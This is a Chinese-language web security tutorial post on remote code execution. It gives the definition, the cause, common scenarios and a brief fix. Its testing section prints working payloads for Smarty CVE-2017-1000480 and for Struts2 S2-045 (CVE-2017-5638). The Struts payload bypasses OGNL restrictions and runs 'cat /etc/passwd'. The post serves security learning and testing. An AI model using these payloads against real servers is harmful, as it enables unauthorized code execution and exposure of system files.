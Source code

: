 ```yaml
---
layout: post
title:  "远程代码执行"
date:   2018-03-22
categories: Web安全测试学习手册
permalink: /archivers/2018-03-22/1
description: "《Web安全测试学习手册》- 远程代码执行"
---
```


《Web安全测试学习手册》- 远程代码执行
<!--more-->
* 目录
{:toc}

## 0x00 远程代码执行 - 介绍

### 1）什么是远程代码执行
 
远程命令执行 英文名称：**RCE (remote code execution)** ，简称**RCE**漏洞，是指用户通过浏览器提交执行命令，由于服务器端没有针对执行函数做过滤，导致在没有指定绝对路径的情况下就执行命令，可能会允许攻击者通过改变 $PATH 或程序执行环境的其他方面来执行一个恶意构造的代码。

### 2）远程代码执行的特点

远程代码执行是指攻击者可能会通过远调用的方式来攻击或控制计算机设备，无论该设备在哪里。

## 0x01 远程代码执行 - 风险等级

**高**

## 0x02 远程代码执行 - 原理

由于开发人员编写源码，没有针对代码中可执行的特殊函数入口做过滤，导致客户端可以提交恶意构造语句提交，并交由服务器端执行。命令注入攻击中WEB服务器没有过滤类似system(),eval()，exec()等函数是该漏洞攻击成功的最主要原因。

## 0x03 远程代码执行 - 常见场景

* 使用了危险函数的Web应用
* 低版本的Java语言Struts框架

## 0x04 测试方案

### PHP中常见场景 - 模板引擎代码执行

Smarty简介

> Smarty是一个PHP的模板引擎。更明确来说，它可以帮助开发者更好地 分离程序逻辑和页面显示。最好的例子，是当程序员和模板设计师是不同的两个角色的情况，而且 大部分时候都不是同一个人的情况。
> 
> CVE-ID : CVE-2017-1000480

产生原因：由于未对用户的输入点进行过滤，导致经过eval函数，造成代码执行

测试Payload：

```
*/phpinfo();/*
```



![0x00](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-04-16/0x00.png)

### Java Struts2 （S2-045）

Struts 简介

> Struts2是一个基于MVC设计模式的Web应用框架，它本质上相当于一个servlet，在MVC设计模式中，Struts2作为控制器(Controller)来建立模型与视图的数据交互。Struts 2是Struts的下一代产品，是在 struts 1和WebWork的技术基础上进行了合并的全新的Struts 2框架。
> 
> CVE-ID : CVE-2017-5638

产生原因：由于未对用户输入点进行过滤，被带入ErrorMessage，当做OGLN表达式解析，造成代码执行

测试Payload：

```
%{(#nikenb='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='cat /etc/passwd').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

![0x01](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-04-16/0x01.png)

## 0x05 修复方案

升级插件、框架新版本
